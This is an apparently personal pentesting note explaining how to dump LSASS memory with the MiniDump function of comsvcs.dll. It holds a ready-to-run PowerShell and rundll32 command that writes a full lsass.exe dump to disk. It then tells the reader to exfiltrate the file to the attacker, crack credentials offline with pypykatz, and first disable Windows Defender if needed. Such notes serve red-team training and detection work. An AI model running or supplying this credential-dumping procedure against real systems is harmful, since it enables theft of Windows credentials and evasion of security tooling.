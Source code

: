 
This note does not cover the basics of Windows authentication.  For an overview of local Windows authentication, reference my [Windows Authentication](../Windows%20Authentication.md) note.
## Overview
---
**comsvcs.dll** is a dynamic-link library (DLL) that is part of the Microsoft Component Services, which provides a set of tools and services for managing COM components.  It's a critical file for COM functionality on Windows systems.  Specifically, it contains a `MiniDump` class which is responsible for creating a minidump file, which is a small, detailed snapshot of a process's memory at a particular point in time.

- This means with the right permissions, the `MiniDump` class within `comsvcs.dll` can be utilized to dump ``lsass.exe`` process memory to a file to be extracted and cracked offline.
## Usage
---

- This method may require a disabled Windows Defender, depending on your Windows version and definitions.  For references, see my [Neutering Windows Defender](../../08.%20Defense%20Evasion/Neutering%20Windows%20Defender.md) note.

```powershell
# Acquire "lsass.exe" PID and set outfile variable
$Process = (Get-Process -Name "lsass").Id
$OutFile = "C:/Windows/Temp/rundll"

# Dump LSASS via the "comsvcs.dll"
C:\Windows\system32\rundll32.exe C:\Windows\system32\comsvcs.dll MiniDump $Process $OutFile full
```

- Next you'll have to have exfil the dump file to your attacker and parse it with with a tool like ``pypykatz``.
	- For lateral movement methods and techniques, reference my [Windows File Transfers](../../06.%20File%20Transfers/Windows%20File%20Transfers.md) note.
	- For *pypykatz* usage, reference my [pypykatz](../Using%20Custom%20Tools/pypykatz.md) note.

